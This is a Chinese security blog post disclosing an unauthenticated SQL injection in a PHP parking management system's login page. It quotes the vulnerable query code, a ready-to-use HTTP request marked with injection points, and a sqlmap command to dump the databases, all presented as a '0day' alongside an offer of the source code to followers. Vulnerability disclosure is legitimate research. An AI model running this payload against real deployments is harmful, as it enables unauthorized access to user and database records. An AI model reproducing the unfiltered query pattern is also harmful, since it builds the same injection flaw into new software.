 #  国外某停车管理系统V1.13存在前台SQL注入漏洞   
原创 Mstir  星悦安全   2025-05-10 08:22  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
车辆停车管理系统是一种基于 Web 的技术，它将管理停车场进出车辆的记录。如果车辆已被访问，管理员很容易检索数据，他可以通过号码获取该数据。车辆停车管理系统是一种自动系统，以非常高的速度提供数据处理.  
  
![VPMS Home Page](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5e1rpUApFqPvLMBjiaM0gy78ibQZK7h3SVGusTCO7ruvQ2iaCTeSHLhKs74Jk5AQf7afdM9IjMRL2h7Q/640?wx_fmt=png&from=appmsg "")  
![VPMS - Admin Dashboard](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5e1rpUApFqPvLMBjiaM0gy78Od0fOZiaHayBeyUkHwtXgvENOuKaxUNqItPvzX00XibYHoxsWmY5hCGA/640?wx_fmt=png&from=appmsg "")  
  
📍 漏洞由星群漏洞库检索发现   
📍  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c0pnVOIEDyfcqFT9sz1KBBs2D24FMOk24PuswdicY86zibuH2KhS2ic4Ovpgg9p4BLBnBNSWvYnAVyg/640?wx_fmt=png&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
位于   
/users/login.php 中通过POST传入   
emailcont 参数后直接被带入到SQL查询字句中，且未加过滤，导致漏洞产生。```
<?php
session_start();
//error_reporting(0);
include('includes/dbconnection.php');
if(isset($_POST['login']))
  {
    $emailcon=$_POST['emailcont'];
    $password=md5($_POST['password']);
    $query=mysqli_query($con,"select ID,MobileNumber from tblregusers where  (Email='$emailcon' || MobileNumber='$emailcon') && Password='$password' ");
    $ret=mysqli_fetch_array($query);
    if($ret>0){
      $_SESSION['vpmsuid']=$ret['ID'];
      $_SESSION['vpmsumn']=$ret['MobileNumber'];
     header('location:dashboard.php');
    }
    else{
  
    echo "<script>alert('Invalid Details.');</script>";
    }
  }
  ?>

```  
  
  
Payload:```
POST /vms/vpms/users/login.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 38
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fts8bkugo602dkngvre7tbqn6t
Host: 192.168.65.5:8080
Origin: http://192.168.65.5:8080
Referer: http://192.168.65.5:8080/vms/vpms/users/login.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36

emailcont=1234567890*&password=1*&login=

```  
  
  
sqlmap -r sql.txt --batch --risk 3 --level 5 --dbs  
  
![image-20250409135424612](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5e1rpUApFqPvLMBjiaM0gy78EdgZkH7k56icKiceIWXWmDXRcbxWjkBB3qmib2TMYPbbZwzHkfS8P5HZA/640?wx_fmt=png&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
  
**停车管理系统关注公众号，发送 250510 获取!**  
  
  
     有审计上或者漏洞相关的问题可以加下方小助理私信询问，代码审计课程第二期，知识星球，CISP-PTE 等证书，等相关事宜也可私信，全网低价.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5e1rpUApFqPvLMBjiaM0gy781Ce9lpvibVO8y8wA4RT3h6TQibpm718QQeUB8pVZ6SOJ6FZnmIhHIuyg/640?wx_fmt=jpeg&from=appmsg "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
